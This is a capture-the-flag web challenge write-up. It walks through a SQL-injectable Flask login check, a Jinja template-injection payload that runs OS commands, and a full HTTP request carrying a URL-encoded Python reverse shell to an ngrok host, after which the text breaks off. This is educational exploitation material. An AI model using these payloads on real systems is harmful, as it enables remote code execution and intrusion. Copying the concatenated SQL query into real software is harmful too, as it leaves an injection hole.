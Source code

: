 ```python
  print(password);
  
  cur.execute("SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'");

  rows = cur.fetchall()
  if(len(rows) > 0):
    return "True";
  return "False";

app.run(host='127.0.0.1',port=8080,debug=True)
```

In this server, they'll check our input of username and password from the main server, the query is sqli-able so we just need to inject it and leak the flag easily. But it wasn't that easy, the data server only response when the main server request to it, so it has to be internal server. After analysing, we'll know the workflow of the website.

- First the main server will check if our input username and password has any dot in it, if don't, they will send a request to data server with our input username and password (and alphanumericalOnly) as json.
- The data server will receive the request and treat our input by adding it to a query which check the username and password and then return True if it right or False if not (boolean based sqli)
- Come back to the main server, if the data server return True, it will render `OMG you are like so good at guessing our flag I am lowkey jealoussss.` which means we have input the right flag, but it's impossible to has this show up because we can't input `{` since the request of data is alphanumerical only. So it'll always return `ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)`

The thing we want is the True and False return from the data server, not the render of main server, which means we have to make the request from the main server, so it will be able to connect with internal server. To do that, we have to RCE the server first.

```python
{{lipsum['__globals__']['os']['popen']('ls')['read']()}}
```

![image](https://user-images.githubusercontent.com/75429369/180784191-46f382c4-cb43-4e47-be93-99625bd6f9dd.png)

We want to know the IP of the data server to make request to it, so we have to read the `main.py`. Since it has the dot in the name file so I decided to get reverse shell to intuitively do the challenge.

I'll use the inject-directly-to-config-and-popen-it method (you can find out how in my ImaginaryCTF write up), i won't explain it here.

```
POST /?t=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%220.tcp.ap.ngrok.io%22%2C12720%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27 HTTP/1.1
Host: litctf.live:31781
Content-Length: 145
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://litctf.live:31781
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://litctf.live:31781/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```